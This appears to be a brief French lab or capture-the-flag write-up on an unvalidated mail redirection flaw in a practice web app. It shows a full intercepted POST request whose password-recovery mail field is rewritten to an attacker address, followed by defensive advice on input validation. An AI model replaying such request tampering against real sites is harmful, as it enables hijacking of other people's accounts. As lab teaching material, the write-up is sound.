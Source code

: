 # Unvalidated redirection mail

## Exploitation

Avec BurpSuite on peux changer la requete envoyer au serveur pour changer la destination du mail qui est initialement prevue

	POST /?page=recover HTTP/1.1
	Host: 192.168.122.55
	User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:71.0) Gecko/20100101 Firefox/71.0
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
	Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
	Accept-Encoding: gzip, deflate
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 39
	Origin: http://192.168.122.55
	Connection: close
	Referer: http://192.168.122.55/?page=recover
	Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
	Upgrade-Insecure-Requests: 1

	mail=hacker%40borntosec.com&Submit=Submit

## Resolution

Ne faites jamais confiance aux champs de saisie utilisateur. Toutes les entrées des utilisateurs doivent être considérées comme non fiables et potentiellement malveillantes. 
Les applications qui traitent les entrées non fiables peuvent devenir vulnérables aux attaques telles que les dépassements de tampon, l'injection SQL, la commande du système d'exploitation, le déni de service et l'injection d'e-mails.
Utilisez des regex pour filtrer les données utilisateur. Par exemple, nous pouvons rechercher (\r ou \n) dans la chaîne d'entrée.
